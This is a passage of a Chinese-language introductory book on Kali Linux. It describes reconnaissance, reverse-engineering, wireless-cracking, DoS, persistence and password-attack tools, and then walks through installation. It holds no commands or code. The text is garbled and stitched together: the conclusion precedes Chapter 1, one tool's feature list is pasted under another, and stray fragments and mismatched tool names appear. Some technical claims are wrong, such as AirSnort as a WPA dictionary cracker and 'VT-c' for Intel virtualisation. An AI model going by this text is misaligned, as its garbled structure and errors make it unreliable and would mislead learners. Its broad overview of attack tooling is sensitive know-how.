`Harvester` 是一款 Kali 工具，但它并非常规的黑客工具。每当提到使用命令行实现的黑客工具时，人们通常会想到 `Nmap`、`Reaver`、`Metasploit` 以及其他用于破解无线密码的工具。然而，`Harvester` 却避免使用高级算法来突破防火墙、破解密码或捕获本地网络数据。

相反，`Harvester` 仅用于收集公开的信息，例如员工姓名、电子邮件地址、横幅标识（banners）、子域名以及同一范围的其他信息。你可能会好奇它是如何收集这些数据的，因为这些数据在信息收集的阶段非常有用。所有这些数据有助于研究和理解目标系统，从而让黑客或渗透测试变得更容易。

此外，它还能帮助攻击者了解目标在互联网上的足迹有多大。它也能帮助组织了解其员工在互联网上拥有多少公开信息。`Harvester` 的最新版本进行了更新，使其能够保持对网页页面发送请求的间隔，改进了搜索源、图表绘制和统计等功能。

`Harvester` 会作为你的代理在互联网上爬取，只要你提供的标准与互联网上的信息匹配，它就会代表你寻找信息。鉴于你也可以使用 `Harvester` 收集电子邮件地址，该工具对于试图通过获取个人邮箱访问权限来渗透在线登录的黑客来说非常有用。

# Metagoofil

`Metagoofil` 是一款 Kali 工具，旨在从互联网上获取公司公开的文档，如 pdf、xls、doc、ppt 等。

该工具通过 Google 搜索来扫描文档并将其下载到本地机器。然后，它使用 `pdfminer`、`hachoir` 等库提取文档的元数据。它将报告结果提供给信息收集过程，这些结果中包含用户名、服务器或机器名称以及软件版本，有助于渗透测试人员进行调查。

# Miranda

`Miranda` 是一款 Kali 工具，可以通过单个命令主动或被动地检测 UPnP 主机、其服务、设备和操作。服务状态参数及其关联操作会自动关联，然后作为每个操作的输入/输出变量进行处理。`Miranda` 使用单一数据结构存储所有主机的信息，并允许你访问该数据结构及其所有内容。

让我们讨论一下到底什么是 UPnP。通用即插即用（UPnP）是一种网络协议，允许网络上的设备如计算机、打印机、路由器、移动设备等，在网络上无缝地发现彼此，并在它们之间建立服务以共享数据、娱乐和其他通信。它理想用于私人住宅内部的网络，而不是企业基础设施。

# Ghost Phisher

`Ghost Phisher` 是一款 Kali 工具，用作攻击软件程序，也用于有线和无线网络的安全审计。它使用 Python 编程语言和 Python GUI 库开发。该程序基本上模拟了网络接入点，因此会在网络中部署其自己的内部服务器。

# Fragroute

`Fragroute` 是一款 Kali 工具，用于拦截、修改和重写指向特定主机的流量。简单来说，来自攻击系统的数据包（被称为 fragroute 数据包）被路由到目标系统。它主要被攻击者和安全人员人员用于绕过防火墙。信息收集也是 `fragroute` 的一个为人知的用例，供使用高度安全的远程主机渗透测试人员使用。

# Masscan

`Masscan` 是一款 Kali 工具，被全球的渗透测试人员使用，并在行业内存在很长时间。它是一种侦察工具，具有每秒传输高达 1000 万个数据包的能力。`Masscan` 使用的传输是异步的，并具有自定义的 TCP/IP 栈。因此，用于发送和接收数据包的线程是独特的。

`Masscan` 用于同时攻击大量主机，而且非常快。工具开发者声称 `Masscan` 可以在 6 分钟内扫描整个互联网。鉴于其极高的传输率，它在压力测试领域也有用例。

然而，为了实现高传输率，需要特殊的驱动程序和网卡（NIC）。该工具与用户的交互与用户与 `Nmap` 工具之间的交互非常相似。

`Masscan` 的特性如下：

- 它可以用于枚举整个互联网
- 它可以用于枚举大量主机
- 它可以枚举组织内的各种子网
- 它可以用于在互联网上进行随机扫描和玩玩

# 逆向工程工具

我们可以从从简单的乐高玩具到汽车引擎等各种物品中，通过逐个拆解零件然后重新组装，学习如何制造和破坏事物。这种通过将事物拆解以深入研究并进一步改进的过程被称为逆向工程（Reverse Engineering）。

逆向工程技术在早期仅用于硬件。随着多年来的演变，工程师开始将其应用于软件，现在也应用于人类 DNA。在网络安全领域，逆向工程有助于理解如果系统被入侵，攻击者是如何进入的。

逆向工程赋予了我们对抗未来攻击者的能力。Kali Linux 配备了许多在数字世界常用的工具。我们将列出一些工具并学习它们的用途。

## Apktool

`Apktool` 是一款用于逆向工程过程的 Kali 工具。该工具具有将资源分解为接近原始形式，然后通过调整重建资源的能力。它还可以逐步调试较小的代码。它具有类似于项目的结构，因此处理应用程序非常方便。使用 `apktool`，你还可以自动化重复性任务，例如构建 apk。

## Dex2jar

`Dex2jar` 是一款 Kali 工具，是一种轻量级 API，用于处理 Dalvik 可执行文件（即 .dex/.odex 文件格式）。该工具基本上可以帮助处理 Java 和 Android 的 .class 文件。

它包含以下组件：

- `Dex2jar` 有一个 API，类似于 ASM。


- `dex-translator` 组件执行转换工作。读取 dex 指令到 `dex-ir` 格式，并在优化后将其转换为 `ASM` 格式。
- `Dex-ir` 组件由 `dex-translator` 组件使用，基本上代表 dex 指令。
- `dex-tools` 组件处理 `.class` 文件。它用于修改 `apk` 等任务。
- 直观的图形用户界面
- 所有的常规调试操作，如单步跳入、单过、运行和断点
- 条件断点
- 指令的基础分析
- 查看或导出内存区域
- 有效的地址检查
- 符号映射的生成与导入
- 各种可用插件
- 用于调试的核心模块以插件形式集成，以便根据需要可以随时进行替换
- 数据转储（`data dump`）视图采用标签页格式。此功能允许用户在同一时间打开多个内存视图，同时允许在它们之间进行切换。

## Jad 调试器

`Jad` 是一款 Kali Linux 工具，它是一个 Java 反编译器，也是世界上最受欢迎的反编译器。它是一个在命令行运行的工具，并用 C++ 语言编写。多年来，已经开发了许多图形界面，它们在后台运行 `Jad`，并为用户提供了一个舒适的终端来执行项目管理、源码浏览等任务。Kali Linux 在其发行版中集成了 `Jad`，用于 Java 调试和其他逆向工程流程。

## Javasnoop

`JavaSnoop` 是由 Aspect Security 工具为 Kali Linux 开发的一款工具，用于测试 Java 应用程序的安全。通过开发 `JavaSnoop`，Aspect 证明了其在安全行业的领先地位，能够为所有应用程序（而不仅仅是 Web 应用）提供验证服务。

`JavaSnoop` 允许你通过像调试器一样附加现有进程，开始篡改方法调用、运行自定义代码，或者坐在一旁观察系统正在发生什么。

## OllyDbg

`OllyDbg` 是一款 Kali Linux 工具，是一个为 Microsoft Windows 开发的32位汇编器级调试器。它特别实用的地方在于强调在源码不可用时对二进制代码进行分析。

`OllyDbg` 具有以下特性：
- 具有交互式用户界面，无命令行烦恼
- 直接加载并调试 `DLL`
- 允许用户定义函数描述、注释和标签
- 安装后注册表或系统目录中没有垃圾文件
- 可用于调试多线程应用程序
- 由于具有开放式架构，可以集成许多第三方应用程序
- 附加到运行中的程序

## Valgrind

`Valgrind` 是 Kali Linux 中的一个工具，用于基于 Linux 的系统的性能分析和调试。该工具允许你自动管理线程错误和内存管理错误。它帮助消除人们在寻找漏洞上浪费的小时，从而在很大程度上稳定了程序。通过使用 `Valgrind` 工具套件对 Linux 程序进行详细的调试和性能分析，可以提高程序的处理速度。`Valgrind` 分发版目前包含以下生产级工具：
- `Memcheck`：检测内存错误
- `DRD` 和 `Helgrind`：另外两个线程错误检测器
- `Cachegrind`：一种分支预测和缓存分析工具
- `Callgrind`：一种分支检测分析工具和生成调用图的缓存分析工具
- `Massif`：堆（`heaps`）分析工具

`Valgrind` 分发版还包含三个实验性工具：
- `SGCheck`：栈或全局数组溢出的检测器
- `DHAT`：第二种堆性能分析工具，有助于理解堆块是如何被使用的
- `BBV`：基本块向量生成器

逆向工程在某些情况下起着着重要作用，制造商利用它来维持与竞争对手的竞争。在其他情况下，逆向工程基本上被用于找出软件中的缺陷并重新构建更好的软件版本。Kali Linux 提供了逆向工程领域闻名的工具。除了我们讨论的工具外，Kali Linux 镜像中还安装了许多第三方逆向工程工具以及我们讨论过的工具。

# 无线攻击工具

在本章中，我们将查看 Kali Linux 中提供的各种工具，这些工具可渗透无线设备以及通过无线网络访问设备。

## Aircrack

`Aircrack` 是一款 Kali Linux 工具，用于无线破解密码，是世界上最流行的此类工具。它用于破解 802.11 WEP 和 WPA-PSK 密钥。它通过分析捕获的数据包尝试破解密码，还可以通过 FMS 攻击和 PTW 攻击破解密码。`Aircrack` 是一款非常强大的工具，在全球范围内使用。

## AirSnort

`AirSnort` 是另一款 Kali Linux 工具，通过自动字典攻击破解 WPA-PSK 网络的密码。它维护了一个包含数千密码的数据库，并在攻击期间使用它们。如果密码在数据库中，该工具破解的可能性很大。该工具适用于 Linux 和 Windows 平台。

## Kismet

`Kismet` 是另一款 Kali Linux 工具，基本上用于无线网络的故障排除。它可以配合任何支持 `rfmon`（监控模式）的 Wi-Fi 设备。它适用于大多数平台，包括 Linux、Windows、OS X 和 BSD 平台。`Kismet` 被动收集数据包以理解网络标准，还能检测隐藏的网络。它基于客户端/服务器架构，并嗅探 802.11b、802.11a、802.11g 和 802.11n 流量。

## Cain & Able

`Cain & Able` 是一款 Kali Linux 工具，因其破解无线网络的能力深受渗透测试员。该工具最初开发用于拦截网络流量。后续开发使其成为一个可以通过暴力破解无线网络密码的工具。该工具分析网络路由协议并帮助发现网络密码。

## Fern Wi-Fi Wireless Cracker

`Fern Wi-Fi Wireless Cracker` 是另一款 Kali Linux 工具，对网络安全非常有帮助。该工具通过监控所有网络流量帮助你识别主机。该工具最初开发用于检测网络漏洞并修复已检测到的漏洞。该工具适用于 Linux、Windows 和 Apple 平台。

## CoWPatty

`CoWPatty` 是另一款 Kali Linux 工具，通过自动字典攻击破解 WPA-PSK 网络的密码。它维护了一个包含数千密码的数据库，并在攻击期间使用它们。

该工具使用以 SSID 为种子的 SHA1 算法，这是其速度缓慢的另一个原因。这意味着密码的 SSIM 将会不同。因此，该工具的彩虹表在用于访问点时可能是无效的。因此，对于用于 SSID 的每个单词，工具的密码字典都会为每个单词生成一个哈希。该工具的使用非常简单，只需一组待使用的命令列表。

`CoWPAtty` 的新版本使用预先计算的哈希文件，因此破解过程中使用的计算时间大大缩短，从而提高了处理速度。预先计算的哈希文件已经包含了 172000 个字典文件，其中包含至少 1000 个常用的 SSID。对于攻击的成功，你的 SSID 在该列表中至关重要。如果 SSID 不在列表中，那么你纯粹是运气不好。

## Airjack

`Airjack` 是一个 Kali Linux 工具，用于在 Wi-Fi 802.11 中进行包注入。拒绝服务（DOS）和中间人（MIM）攻击是该工具的长。该工具通过向网络注入伪造数据包强制网络产生拒绝服务。该工具还可以帮助在给定网络中创建中间人攻击。该工具对用户来说既强大又流行。

## WepAttack

`WepAttack` 是另一个基于开源平台构建的 Kali Linux 工具，用于破解 802.11 WEP 密钥。它维护了一个包含数百万单词的字典，并用它来破解网络密码。使用 `WepAttack` 执行攻击的唯一要求是一个工作状态良好的 WLAN 网卡。`WepAttack` 的可用性非常有限，但它在支持的 WLAN 网卡上效果惊人。

## Wifiphisher

`Wifiphisher` 是一个 Kali Linux 工具，同样用于破解无线网络的密码。该工具通过执行快速节奏的钓鱼攻击来窃取无线网络的密码。Kali Linux 预装了 `Wifiphisher`。它是一个在 Linux、Windows 和 MAC 上均使用的工具，并且完全免费。

## Reaver

`Reaver` 是一个开源的 Kali Linux 工具，用于创建针对 WPS 的本质上是破解的攻击。该工具用于破解 WPA/WPA2 加密密码。该工具托管在 Google 开发的代码上，如果没有进行本地备份，该工具很有可能会被下架。`Reaver` 上次更新是在大约 4 年前。它是一个很好的工具，渗透测试员可能需要的其他密码破解工具之外，因为它使用了相同的攻击方法。

# Wifite

`Wifite` 也是一个 Kali Linux 工具，帮助通过 `reaver` 破解通过 WPS 加密的网络。它在所有基于 Linux 的操作系统上运行。`Wifite` 提供了许多与破解密码相关的功能。

## WepDecrypt

`WepDecrypt` 是用 C 语言编写的针对无线网络的 Kali Linux 工具。它执行字典攻击并尝试猜解 WEP 密钥。此外，它还使用密钥生成器并执行分布式网络攻击和其他方法来确定无线网络的密钥。它依赖于几个库才能运行。它不是用户中一个非常流行的工具，但建议初了解字典攻击的功能。

## CommonView for Wi-Fi


# `CommonView for Wi-Fi`

`CommonView for Wi-Fi` 是一个 Kali Linux 工具，一个无线网络网络监控器，也用于分析包。它是一个简单的工具，带有易于理解的图形用户界面。该工具是为对监控和排除无线网络相关问题的网络管理员和安全专业人员开发的。该工具适用于 Wi-Fi `802.11 a/b/g/n/ac` 网络。该工具可以轻松捕获每个数据包并让你查看网络信息。它还为你提供其他信息，如访问点、协议分布、信号强度等。该工具提供了关于无线网络的价值信息，对于网络管理员来说是一个非常得手的工具。

## `Pyrit`

`Pyrit` 也是一个非常好的 Kali Linux 工具，允许你攻击执行 `IEEE 802.11 WPA/WPA2-PSK` 加密的无线网络。这是一个免费的工具，托管在 `Google Code` 上。同样，由于它是由 Google 托管的，它可能在未来几个月内被移除，因此，有一个本地副本是好的。它支持广泛的操作系统，如 `Linux`、`OS X`、`FreeBSD` 等。

它使用暴力破解方法破解 `WPS/WPA-2` 密码。由于其非常有效，建议每个人至少尝试这个工具一次。

# 报告工具

你进行渗透测试后获得的报告是安全评估活动中开展的活动的关键交付物。渗透测试的最终交付物是报告，它记录了提供的服务、使用的方法、测试的发现或结果，以及为了提高安全性而提出的建议。报告制作大多数时候被忽略，因为许多渗透测试员认为它很无聊。在这部分，我们将讨论用于简化报告制作过程的 Kali Linux 工具。这些工具帮助你存储渗透测试结果，当你编写报告时可以参考这些结果。工具还将帮助你与团队通信并共享数据。

我们涵盖了两个主要工具，`Dradis` 和 `Magic Tree`。

## `Dradis`

`Dradis` 框架是一个开源的 Kali 工具，作为一个安全领域的协作和报告平台运行。该工具用 `Ruby` 开发，并且独立于平台。`Dradis` 提供导出报告的选项，所有活动都可以记录在单份报告中。

## `Magic Tree`

`Magic Tree` 是一个 Kali Linux 工具，用于报告和数据管理，类似于 `Dradis`。它的设计使得数据整合、执行命令、查询和报告生成变得简单直接。Kali Linux 预装了该工具，它位于报告工具类别。它使用树结构管理主机及其关联数据。

## `Magic Tree` vs `Dradis`

`Magic Tree` 和 `Dradis` 都设计用于解决同一组问题，即数据整合和报告生成。`Magic Tree` 和 `Dradis` 都允许从用于渗透测试的各种工具导入数据。它还允许手动添加数据并生成报告。这两个工具都遵循树结构。

`MSK` 也是一个 Kali Linux 工具，是一种用于利用 `IEEE 802.11` 协议漏洞的原理验证工具。

注意：在网络上运行 `MDK` 之前，请确保网络所有者已允许你在该网络上运行。

## `FunkLoad`

`FunkLoad` 是一个 Kali Linux 工具，用于对系统的功能和负载进行 Web 测试。它用 `Python` 开发，具有以下用场景：

- 对 Web 项目进行功能测试和回归测试。
- 通过对 Web 应用施加负载来测试其性能。这有助于理解瓶颈，并帮助你获取详细的测试报告。
- 基本测试（如容量测试或持久性测试）可能无法显示负载测试中才会出现的漏洞，而 `FunkLoad` 可以实现这一点。
- 它是一个压力测试工具，最终使 Web 应用程序及其资源过载。这有助于理解应用程序的恢复能力。
- 你还可以编写脚本来自动化重复性任务。

## `ipv6-toolkit`

由 `SI6 Network` 开发的 IPv6 工具包是一组用于测试 IPv6 网络安全性并排排除其上出现的任何问题的工具。你可以对 IPv6 网络进行实时攻击，这将帮助你评估其安全性和韧性，并帮助你排查 IPv6 网络上的网络问题。该套件中的工具包括从数据包构造到最复杂的 IPv6 网络扫描工具 `scan6` 工具。

以下列表将为你介绍该套件中的所有工具：

- `addrr6`：一种分析和操作 IPv6 网络的工具。
- `flow6`：IPv6 安全评估工具。
- `frag6`：一种对 IPv6 网络执行分片攻击的工具，用于执行许多与分片相关的方面和安全评估。
- `icmp6`：根据 `ICMPv6` 网络协议抛出的错误进行攻击的工具。
- `jumbo6`：一种查看 IPv6 巨型帧（jumbograms）处理并评估其潜在缺陷的工具。
- `na6`：发送任意邻居公告（neighbor advertisements）消息的工具。
- `ni6`：通过发送 `ICMPv6` 节点信息消息来检查处理 `ICMPv6` 包时的潜在缺陷的工具。
- `s6`：发送任意邻居请求（neighbor solicitation）消息的工具。
- `ra6`：发送任意路由器公告（router advertisements）消息的工具。
- `rd6`：发送任意 `ICMPv6` 重定向（redirects）消息的工具。
- `rs6`：发送任意路由器请求（router solicitation）消息的工具。
- `scan6`：一种扫描 IPv6 网络的工具。
- `tcp6`：一种发送任意 TCP 分段并执行各种基于 TCP 攻击的工具。

## `SlowHTTPTest`

`SlowHTTPTest` 是一个 Kali Linux 工具，可以模拟应用层的拒绝服务（DoS）攻击。它支持大多数平台，如 `Linux`、`OS X` 和 `Windows` 系统的命令行界面。

该工具基本上实现了应用层的低带宽 Dos 攻击，例如通过耗尽并发池的 Slow HTTP POST、`slowloris`、慢读攻击（Slow Read attack），以及导致服务器 CPU 和内存产生高负载的 `Apache` 范围标头（Range Header）攻击。

由于 HTTP 协议的设计，为了完全处理请求，需要服务器完整地接收请求。这正是 `slowloris` 和 HTTP POST 拒绝服务攻击所利用的。如果 HTTP 请求不完整或数据传输速率缓慢，服务器将为挂起的数据保留资源。当服务器保持大部分资源处于忙碌状态时，就会导致拒绝服务的产生。这正是该工具的功能。它发送部分或缓慢的 HTTP 请求，使服务器保持繁忙，从而导致目标 HTTP 服务器遭受拒绝服务。

# 维持访问工具

一旦我们通过看过的许多方法破解了目标机器，我们的下一步应该是确保能够帮助我们维持已获得的宝贵访问权限的技术。这是为了确保如果你允许进入系统的漏洞在未来被修补，你仍然有某种方式可以访问系统。

我们将查看 Kali Linux 中提供的各种工具，这些工具将帮助我们维持系统的访问。

## `Cryptcat` 软件包描述

`CryptCat` 是一个简单的 Kali Linux 实用程序，它可以读取其跨网络连接看到的所有数据并向其写入数据。它使用 `UDP` 或 `TCP` 协议执行此操作，并对通过网络传输的数据进行加密。它的设计使其能够集成到运行在图形界面前端程序或脚本中，而工具在后端以非常可靠的方式运行。同时，它也是一个功能丰富的工具，允许网络调试和探索。它是一个非常有趣的工具，因为它允许你创建所需的连接，并具有许多其他内置功能。

## `HTTPTunnel` 软件包描述

`HTTPTunnel` 是一个 Kali Linux 隧道软件。可以通过网络连接创建隧道。它基本上有两个组件。

客户端位于防火墙后，接受连接到远程服务器的端口，或者充当 `SOCKS` 代理。`SOCKS` 的身份验证源可以是从 `MySQL` 或 `LDAP` 目录获取的固定用户列表。客户端组件是一个独立于平台的 `Perl` 脚本，或者也提供 `Win32` 二进制版本。

服务器端组件存在于互联网，客户端向其发送 HTTP 请求。服务器随后将这些请求翻译并转发到上游服务器的网络连接。

有两种可用的服务器。一种 Web 服务器，基本上托管了一个 `PHP` 脚本。你在 Web 服务器上托管的 `PHP` 脚本将允许你运行隧道。第二个服务器是独立服务器，独立于平台，或者也提供 `Win32` 二进制版本。如果你有连接到互联网的自己的设备（如家用电脑），可以作为独立服务器。托管服务器可能会根据提供服务器的公司对你托管的内容进行限制（例如 `PHP` 脚本的最大执行时间）。因此，拥有自己的独立服务器比托管服务器更有优势。

对应用程序进行测试映射和攻击面分析，以发现安全漏洞并进行利用。

`Burp` 让用户拥有完全控制权，因为它允许将手动技术与自动化相结合。这有助于使整个过程变得高效、快速且更有趣。

## `DNSChef`

`DNSChef` 是一个高度可配置 Kali Linux 工具，用于为恶意软件分析人员和渗透测试人员配置 DNS 代理。DNS 代理（伪 DNS）是一种用于分析网络流量的工具。

例如，如果有人在互联网上请求 `example.com`，可以使用 DNS 代理将他们重定向到互联网上的一个错误页面，而不是存放 `example.com` 网站的真实服务器。

互联网上有许多 DNS 代理工具。大多数工具都允许你将传入的 DNS 查询指向单个 IP。`DNSChef` 开发了一套完整的 DNS 代理工具解决方案，它能够为用户提供各种所需的配置。基于这一愿景，`DNSChef` 是一个跨平台运行的工具，能够在创建伪造响应的同时支持多种类型的 DNS 记录。


在无法强制 Web 应用程序使用特定代理服务器时，建议使用 DNS 代理。例如，某些移动应用程序会丢弃 HTTP 设置中的代理设置。在这种情况下，使用像 `DNSChef` 这样的工具作为 DNS 代理服务器将非常有用。它允许你通过欺骗应用程序将传入的 HTTP 请求重定向到目标地。

## Wifi Honey

`Wifi Honey` 是一个 Kali Linux 工具，本质上是一个创建五个监听接口的脚本。一个窗口用于工具 `airodump-ng`，其余四个窗口用于 AP（接入点）。该工具在 `screen` 会话中运行这五个窗口，使得在五个屏幕之间切换变得简单，并最终让这一过程更加舒适。所有会话都标记了标签，因此你不会在屏幕上感到困惑。

## 密码攻击工具

如名所示，Kali Linux 中的密码攻击工具帮助破解应用程序和设备的密码。

让我们查看 Kali Linux 中提供的几个密码破解设备。

### crowbar

`Crowbar` 以前被称为 `Levye`，是一种用于渗透测试的 Kali Linux 工具。根据常规暴力破解工具作者的说法，`crowbar` 的开发是为了以一种不同于常规工具的方式对协议进行暴力破解。例如，在 SSH 暴力破解攻击期间，大多数工具使用用户名和密码进行攻击，但 `crowbar` 与大多数工具不同，它使用 SSH 密钥。这意味着如果在任何渗透测试期间获取了任何类型的私钥，就可以用它来攻击具有 SSH 访问权限的服务器。

### john

`John the Ripper` 是一个 Kali Linux 工具，在设计上既快速又功能丰富。你可以根据自己的特定需求对其进行自定义，并将许多其他破解方法整合在一个简单的程序中。它包含一个内置编译器（是 C 编译器的一部分），该编译器甚至允许你定义一种完全自定义的破解模式。`John` 可用于所有平台，这意味着你可以在去的任何地方使用相同的工具。此外，如果你在一个平台上开始破解某个会话，你完全可以在另一个平台上继续它。`John` 的便携性就在于此。

`John` 开箱即用，自动检测并支持 Unix 中的以下加密类型：

基于 DES 的 tripcodes、Windows 和 Kerberos/AFS 哈希值、OpenBSD Blowfish、FreeBSD MD5、BSDI 扩展 DES、bigcrypt 和传统 DES。

### Ncrack

`Ncrack` 是一个高速的 Kali Linux 工具，用于破解网络身份验证。构建此工具的动机是让企业能够主动检查其网络基础设施和设备，是否存在任何漏洞和缺陷（如弱密码）。安全专业人员在为客户进行审计时也会使用 `Ncrack`。`Ncrack` 的构建基础是类似于 `Nmap` 的命令行语法、模块化方法以及一个能够从网络反馈并调整其行为的动态引擎。`Nmap` 允许大规模审核主机，且方式可靠。

`Ncrack` 的功能列表提供了一个非常灵活的界面，让用户完全控制网络操作，使其能够执行本质上复杂的暴力破解，提供易用模板。`Ncrack` 支持协议：OWA、WinRM、MongoDB、Cassandra、MySQL、MSSQL、PostgreSQL、Redis、SIP、SMB、VNC、POP、IMAP、HTTP 和 HTTPS、Telnet、FTP、RDP 以及 SSH。

### RainbowCrack

`RainbowCrack` 是一个通用 Kali Linux 工具，是 Philippe Oechlin 的实现。它用于破解具有彩虹表的哈希。`Rainbow Crack` 利用时间换空间算法来破解彩虹表哈希。这使其与暴力破解哈希器不同。

暴力破解哈希器会在运行时生成所有可能的明文，并计算与之对应的哈希。然后它将需要破解的哈希与手中的哈希进行比较。如果在比较了所有可用明文后仍未找到匹配，所有中间计算结果将被丢弃。

时间换空间哈希器设置了预计算阶段，并将所有哈希的结果存储在彩虹表中。这是一个耗时的计算过程。一旦第一阶段的预计算完成，存储在彩虹表中的哈希破解性能将比暴力破解器高得多且更高效。

## 结论

再次感谢你选择这本书。Kali Linux 是一种非常先进的 Linux 发行版，用于安全审计和渗透测试。在我们过的过的工具之后，已经很清楚了，如果你想在该领域取得成功，Kali Linux 将为你提供实现该目标的无限力量。同样清楚的是，如果你刚开始学习 Linux，Kali Linux 并不是你想开始的地方，因为它是一个复杂的系统。

经验。在书的后半部分，我们的重点将转向网络安全、黑客攻击或 Kali Linux 提供的工具。

此外，我们的重点主要放在伦理黑客上。但这并不意味着我们不会涵盖一些黑帽技术。

在书的末尾，你将掌握充分利用 Kali Linux 的技能，理解黑客攻击、漏洞，并为保护你自己的系统安装做好准备。

# 第 1 章 开始使用 Kali Linux

Kali Linux 是目前领先的 Linux 发行版之一。它主要用于黑客攻击目的。黑客攻击既可以是黑帽，也可以是白帽（我们将在稍后详细介绍不同类型的黑客）。作为一名学习者，我一直很好奇是什么让 Kali Linux 如此有趣。这促使我写了这本书，而现在我们在这里了！

## 什么是 Kali Linux？

Kali Linux 是一个 Linux 操作系统，基于 Debian。Kali Linux 的主要目的是安全。它被用于渗透测试和安全审计。这使得它成为具有恶意意图的黑客的理想工具。

Kali Linux 的核心优势在于它提供的工具。它预装了海量的工具，这些工具可以执行各种信息安全任务。例如，它可以让你进行逆向工程、安全研究、计算机取证等。目前，它拥有超过 600 个渗透测试程序。随着安全领域研究深入，工具数量将继续增长。

Offensive Security 管理 Kali Linux 发行版。这是一家领先的信息安全培训公司。他们现在管理着开发 Kali Linux 的资金，它是渗透测试和数字取证的最佳发行版。项目背后的两个主要人物包括 Offensive Security 的 Dev Kearns 和 Mati Aharoni。另一位产生影响开发者是 Debian 专家 Raphael Hertog。

这一切让 Kali Linux 成为学习黑客攻击或渗透测试的完美工具。你可以选择如何使用它。

Kali Linux 的进化始 2013 年 BackTrack Linux 的终结。该项目在 2013 年 3 月重启为 Kali Linux，同时保持了 Debian 开发标准。

Kali Linux 也因支持 Metasploit 项目而闻名。该项目用于安全漏洞的开发和执行。

# 安装与准备 Kali Linux

在开始之前，我们需要准备 Kali Linux。安装 Kali Linux 很容易。此外，Kali Linux 有两种安装方式：你可以使用 USB 闪存器将其安装在独立的硬盘上，或者简单地使用虚拟化解决方案将操作系统进行虚拟化。

- USB 方法
- USB 方法双系统启动安装
- 虚拟化方法（VMware 或 Hyper-V）

如果你是虚拟化的新手，让我用简单的语言向你解释。虚拟化是一种让操作系统或软件提供其独立的虚拟资源，运行在已有的操作系统/设备/解决方案上的方法。目前有很多虚拟化解决方案，包括 VMware。许多大公司严重依赖虚拟化技术。即使是云公司也使用虚拟化来为订阅者提供云计算。托管公司也将虚拟化植根于服务之中。到这里，你应该知道虚拟化是一项大技术，而且确实如此！

如果你使用的是 Windows 的最新版本 Windows 10，可以使用虚拟化来安装 Kali Linux。Windows 10 正在缓慢接受 Linux，这就是为什么微软在 2016 年引入了自己的 Hyper-V 虚拟化解决方案。如果你使用的是最新的 Windows 10 版本或 1803 及以上版本，你的 Windows 应该已经预装了 Hyper-V 软件。

让我们学习如何使用 USB 驱动器方法安装 Kali Linux。但在之前，请检查安装 Kali Linux 的最低要求。

- 一个 USB 驱动器启动介质或 DVD 启动介质
- 最低 20 GB 硬盘空间
- Kali Linux ISO 镜像

你可以从 Kali Linux 官方网站 `www.kali.org` 下载 Kali Linux ISO。在那里你可以在 Kali Linux Downloads 下找到所有下载选项：`https://www.kali.org/downloads/`。我还建议你使用比特种子（torrents）下载，因为你会获得更快的速度。

从那里，你应该选择 Kali Linux 64 位版。对于这本书，我们将使用 2019.3 版本。我建议你下载和我相同的版本。这样，你就可以轻松地遵循书中分享的教程和方法。不过，如果你选择下载稍有不同的版本（特别是最新版本），也完全没问题。

## 使用 USB 方法安装 Kali Linux

在没有预装操作系统的裸机上上安装 Kali Linux 很容易的。你只需要制作一个可启动 U 盘或使用 DVD 安装盘。要制作可启动 U 盘，你需要按照下述的步骤操作。

- 下载 Kali Linux ISO
- 现在，下载 `Rufus`。
- 下载完 `Rufus` 后，将其安装在你的机器上。如果你没有可用的机器，应该向可以帮你操作的同事或朋友寻求帮助。


现在，打开 `Rufus`，它看起来如下所示。



你的 U 盘将显示在设备中。一旦选择了它，你现在需要启动。在分区方案中，你应该保留 `MBR`。目标系统设为 `UEFI`。

设置完成后，点击“开始”。

虚拟化准备就绪后，你现在需要启动。

进程完成后，系统将重启。

## 双系统启动安装

要实现双系统启动 Kali Linux，你需要遵循以下步骤：

- 启动方法与上述类似。但是，你需要足够的空间。
- 为了实现这一点，你需要使用名为 `GParted` 的工具。
- `GParted` 对于缩小 Windows 分区非常有用。
- 为了实现这一点，你需要从 USB 启动。
- 进入 Live 桌面后，你需要缩小 Windows 分区。
- 为 Kali Linux 留空间。右键点击分区并选择“调整/移动”。
- 当 `GParted` 启动后，你需要选择分区。
- 选择更改后，点击“所有操作”。
- 完成后，你现在需要重启 Kali Linux。
- 安装完成后，你可以使用 `GRUB` 菜单进入 Kali Linux。

## 在 Hyper-V 上安装 Kali Linux

现在，我们将学习如何在 `Hyper-V` 上安装 Kali Linux。在学习 Kali Linux 时这是我的建议。

### 在你的机器上启用 Hyper-V

`Hyper-V` 在 Windows 环境中提供虚拟化。要启用 `Hyper-V`，你需要满足以下要求：

- 支持 `SLAT`（二级地址转换）的 64 位 CPU。
- 虚拟化支持。基本上，`Ryzen` 应该是 `SVM` 模式，Intel 芯片应该是 `VT-c`。
- 至少 4 GB 内存。

即使你的机器支持虚拟化，也需要先启用。要启用它，你需要进入 `BIOS` 并启用虚拟化。我使用的是一台配有 `AB350` 主板和 `Ryzen 1600` 的中端配置。对于我的机器，我必须进入 CPU 高级功能，然后在那里开启 `SVM` 模式。

在那里，你将找到 `Hyper-V` 选项，以及两个选项：`Hyper-V` 平台和 `Hyper-V` 管理工具。启用这两个选项并点击确定继续。

完成后，你需要重启，然后进入实际的安装过程。

# 开始安装过程

- 对于此，我们建议通过“快速创建（`Quick Create`）”选项。一旦你打开 `Hyper-V`，你将在菜单中找到“快速创建”选项。
- 随后，你将看到“创建虚拟机”窗口。在那里，你会发现几个选项，包括 `Ubuntu 18.04.3 LTS` 和 `Ubuntu 19.04`。
- 在这里，你需要先点击“本地安装源”，然后移动到“更改安装源”。
- 从那里，选择 `Kali Linux ISO`。同时，取消勾选“此虚拟机将运行 Windows”选项。
- 完成后，点击“创建虚拟机”按钮。

系统随后会提示你连接到你的新虚拟机。关闭提示，然后右键点击你刚刚创建的新虚拟机，并选择“设置”。

- 现在，从那里进入 `SCSI` 适配器，然后选择硬盘。
- 从这里，如果你想更改虚拟磁盘的位置，则需要点击“新建”。这很重要，因为默认情况下，`vhdx` 文件存储在 `C:` 盘中。
- 点击“连接”。完成后，你现在将看到下所示的 Kali Linux Live 启动菜单。



在这里你可以看到“`Live system`（Live system）”选项。`Live system` 选项适用于在不需要安装的情况下使用 Kali Linux。这对于测试某功能是可以的，但并不用户友好，因为它不会保存工作环境设置或你实际完成的工作。这使得使用已安装的 Kali Linux 是一个好主意。

要开始安装，你需要在**启动安装程序（`start installer`）**选项上按回车。完成后，它将使用安装向导开始安装。

以下是安装过程中将遵循的步骤预览。

让我们列出以下步骤以确保安装正确。

- 为安装过程选择你偏好的语言。它还会询问你已安装系统的语言选择。我们在两个选项上都选择英语。
- 根据你所在的所在地选择你的位置。
- 它将要求你配置关键字。选择你喜欢的键盘布局。
